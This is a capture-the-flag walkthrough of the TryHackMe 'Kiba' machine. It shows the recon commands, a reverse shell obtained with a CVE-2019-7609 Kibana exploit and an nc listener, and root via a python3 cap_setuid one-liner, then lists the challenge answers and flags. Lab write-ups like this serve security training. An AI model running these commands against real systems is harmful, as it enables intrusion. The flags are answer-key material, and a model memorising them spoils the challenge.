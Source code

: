 # Kiba - Easy

```shell
nmap -T4 -p- -A -v 10.10.100.2

feroxbuster -u http://10.10.100.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

#get exploit from Github
python2 CVE-2019-7609-kibana-rce.py -h

#setup listener in another tab
nc -nvlp 4444

python2 CVE-2019-7609-kibana-rce.py -u http://10.10.100.2:5601 -host 10.14.31.212 -port 4444 --shell

#we get reverse shell
cat /home/kiba/user.txt

#to check capabilities
getcap -r / 2>/dev/null

#exploit python3 capabilities from GTFObins
/home/kiba/.hackmeplease/python3 -c 'import os;os.setuid(0);os.system("/bin/sh")'

#we are root
cat /root/root.txt
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.2p2 (Ubuntu)
  * 80 - http - Apache httpd 2.4.18
  * 5044 - lxi-evntsvc
  * 5601 - esmagent

* We can explore the webpage; the site gives us the clue "Linux capabilities".

* Googling for "prototype-based inheritance vulnerability" gives us results for prototype pollution and a particular CVE for an exploit in Kibana.

* Researching on this topic leads us to more clues and gives us the CVE required.

* Checking the webpage on port 5601 leads us to the Kibana dashboard.

* We can get the version by checking the Management tab in the webpage.

* Now, using the CVE number and the version, we can get exploits available on Github to get reverse shell.

* We can get user flag in /home/kiba

* Using the hint "capabilities", we can check capabilities with the help of 'getcap' utility.

* We get a capability which can be exploited as it is included in GTFObins:

    ```/home/kiba/.hackmeplease/python3 = cap_setuid+ep```

* Following the exploit given in GTFObins, we get root shell.

```markdown
1. What is the vulnerability that is specific to programming languages with prototype-based inheritance? - Prototype pollution

2. What is the version of visualization dashboard installed in the server? - 6.5.4

3. What is the CVE number for this vulnerability? - CVE-2019-7609

4. Compromise the machine and locate user.txt - THM{1s_easy_pwn3d_k1bana_w1th_rce}

5. How would you recursively list all of these capabilities?

6. Escalate privileges and obtain root.txt - THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
```
